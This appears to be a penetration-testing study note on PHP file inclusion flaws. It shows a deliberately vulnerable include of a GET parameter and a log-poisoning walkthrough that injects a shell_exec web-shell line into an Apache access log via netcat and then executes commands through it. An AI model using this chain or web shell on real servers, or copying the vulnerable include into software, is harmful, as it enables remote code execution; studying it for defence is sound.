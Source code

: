 # File Inclusion Vulnereabilities
File inclusion vulnerabilites, unlike directory traversals (which only allows the attacker to view files), allows an attacker to include a file into the application's running code.

Local File Inclusions (LFI) occur when the included file is loaded from the same web server.

Remote File Inclusions (RFI) occur when the file is loaded from an external source.


# Identifying File Inclusion Vulnerabilities
File inclusion vulnerabilites are identified similarly to directory traversals - by locating the parameters to manipulate and attempt to load arbitary files. However, we take this one step further by executing the contents of the file within the application.

RFI vulnerabilities can also be checked by changing the values to a URL instead of a local path. However, modern PHP versions disables remote URL includes, which reduces the likelihood of discovering RFIs. 

RFIs are easier to exploit than LFIs, and we can use Netcat, Apache or Python to handle the request. The payload might need to be hosted on different ports, since the target server may have some firewall or routing rules.


# Local File Inclusion (LFI)
As mentioned, LFI makes use of the local files on the web server to execute code.

One example would be the **.php** code present on the server. For example, in the lab machine, *menu.php* code is as follows:
```php
<?php
	$file = $_GET["file"];
	include $file; ?>
```
This means that the application will execute any PHP code within the specified file. Hence, we need to think of ways to get our code to be executed using this application.

One way is through **log poisoning**. Web servers typically have access logs which log requests to the server. In Linux systems running Apache web servers, the logs are stored at `/var/log/apache2/access.log`, and in the Window 10 Lab Machine, the logs are stored at `c:\xampp\apache\logs\access.log`.

Knowing this, we can submit a request to the web page containing our PHP code, and then redirect the application to read the log file, essentially executing the PHP code hidden within. We do this through **netcat**.
```bash
nc -nv 10.11.0.22 80

<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?> # This is our LFI payload, where the parameter 'cmd' is our command to be executed on the web shell
```

Once we have sent our payload, we then change our URL to redirect the application to include this log file to be executed via `http://<ip-address>/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig` 
